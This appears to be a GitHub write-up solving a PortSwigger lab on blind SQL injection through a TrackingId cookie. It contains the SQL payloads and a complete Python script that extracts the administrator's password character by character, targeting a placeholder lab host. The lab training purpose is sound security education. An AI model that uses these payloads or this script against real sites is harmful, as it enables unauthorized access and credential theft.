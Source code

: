 ## PortSwigger Blind SQL Injection with Conditional Responses

If you're using the community edition of Burp Suite, brute-forcing all lowercase characters and digits (0-9) can take hours. So I came up with this solution which is more efficient and creative.

---

## Challenge Description

![Challenge Description](./Screenshots/Challenge_description.png)

The challenge description reveals that the application uses the `TrackingId` cookie in SQL queries. We also confirm the existence of the `users` table, the `administrator` user, and a `password` column.

---

## Determining the Password Length

1. Open Burp Suite, intercept the request, and send it to Repeater.

   ![Repeater](./Screenshots/Repeater.png)

2. Since the cookie value is embedded in the query, we can attempt SQL injection. Removing it entirely would trigger an error, as the query expects a specific value. Instead, we modify it to inject our payload:
   ```sql
   TrackingId=GoldenDragon' AND '1'='1
   ```

   ![First Payload](./Screenshots/FirstPayload.png)

   If the response contains `Welcome back!`, we know the injection was successful. Since this is a blind SQL injection scenario, the database does not return direct query results, but we can infer information from response differences.

3. Next, verify if the `administrator` user exists:

   ```sql
   TrackingId=GoldenDragon' AND (SELECT 'a' FROM users WHERE username='administrator')='a
   ```

   ![Second Payload](./Screenshots/SecondPayload.png)

   If `Welcome back!` appears, the `administrator` user exists.

4. Now, determine the password length:

   ```sql
   TrackingId=GoldenDragon' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password) > 1)='a
   ```

   ![Length Check](./Screenshots/Length.png)

   Increase the number incrementally until `Welcome back!` disappears. Instead of manually testing, we automate it using Burp Suite’s Intruder:

   ![Intruder Setup](./Screenshots/Intruder1.png)

   To generate a wordlist of numbers from 1 to 100, I used ChatGPT to create a text file.

   Configure the settings:

   ![Intruder Grep](./Screenshots/Intruder2.png)

   Using the **Grep** function ensures that we detect when `Welcome back!` appears in responses. 

   Launch the attack!

   ![Attack Result](./Screenshots/AttackResult.png)

   The `Welcome` column stops appearing after 20, confirming the password length.

---

## Extracting the Password

Now, brute-force the password character by character using SQL’s `SUBSTRING()` function. We use Burp Suite’s Intruder similarly:

![Intruder for Password](./Screenshots/Intruder3.png)

Since Burp Suite Community Edition is slow, a Python script offers a more efficient approach:

```python
import requests
import string

url = "https://example.web-security-academy.net/"

headers = {
    "Host": "example.web-security-academy.net",
    "Cookie": "TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
}

characters = string.ascii_lowercase + string.digits
password = ""

for position in range(1, 21):  # Assuming the password is 20 characters long
    for char in characters:
        headers["Cookie"] = f"TrackingId=xyz' AND (SELECT SUBSTRING(password,{position},1) FROM users WHERE username='administrator')='{char}"
        response = requests.get(url, headers=headers)

        if "Welcome" in response.text:
            password += char
            print(f"Found character: {char} | Current password: {password}")
            break
    else:
        print(f"No valid character found for position {position}. Exiting.")
        break

print(f"Final password: {password}")
```

This script rapidly extracts the password, completing the attack in under a minute.

![Fincal Output](./output.png)

---

Burp Suite’s Intruder is definetely useful, but a Python script significantly speeds up the process.

Happy hacking!
